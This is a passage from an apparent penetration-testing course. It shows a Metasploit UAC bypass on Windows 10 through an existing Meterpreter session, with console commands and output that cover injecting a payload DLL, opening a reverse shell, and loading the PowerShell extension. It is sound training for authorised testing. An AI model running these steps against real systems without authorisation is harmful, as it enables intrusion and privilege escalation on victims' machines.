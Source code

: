  In the following steps, we will assume that we have gathered this shell through a client side attack.

 A search for UAC bypass modules yields quite a few results.

 However, since in our example thecompromised host is our Windows 10 Fall Creators Update client machine, we will focus on the bypassuac_injection_winsxs module as it works well on this version of Windows. 
 
 We will select the module and list its options. 
 
 This reveals a single parameter named SESSION, which is the target Meterpreter session.
 
 Setting the session to our active Meterpreter session with set SESSION 10.
 
 and running exploit will essentially pipe the exploit through the active session to the vulnerable host:

msf5 > use exploit/windows/local/bypassuac_injection_winsxs
msf5 exploit(windows/local/bypassuac_injection_winsxs) > show options
Module options (exploit/windows/local/bypassuac_injection_winsxs):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 SESSION yes The session to run this module on.
Exploit target:
 Id Name
 -- ----
 0 Windows x86
msf5 exploit(windows/local/bypassuac_injection_winsxs) > set SESSION 10
SESSION => 10
msf5 exploit(windows/local/bypassuac_injection_winsxs) > exploit
[*] Started reverse TCP handler on 10.11.0.4:4444
[+] Windows 10 (Build 16299). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[+] Successfully injected payload in to process: 5800
[*] Sending stage (179779 bytes) to 10.11.0.22
[*] Meterpreter session 11 opened (10.11.0.4:4444 -> 10.11.0.22:53870)
meterpreter >
 
 Besides being able to background an active session and execute modules through it, we can also load extensions directly inside the active session with the load command.

 One great example of this is the PowerShell extension,717 which enables the use of PowerShell. 

 With this module, we can execute PowerShell commands and scripts, or launch an interactive PowerShell command prompt.
 
  In Listing 801, we load powershell and list the available subcommands.

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > help powershell
Powershell Commands
===================
 Command Description
 ------- -----------
 powershell_execute Execute a Powershell command string
 powershell_import Import a PS1 script or .NET Assembly DLL
 powershell_shell Create an interactive Powershell prompt
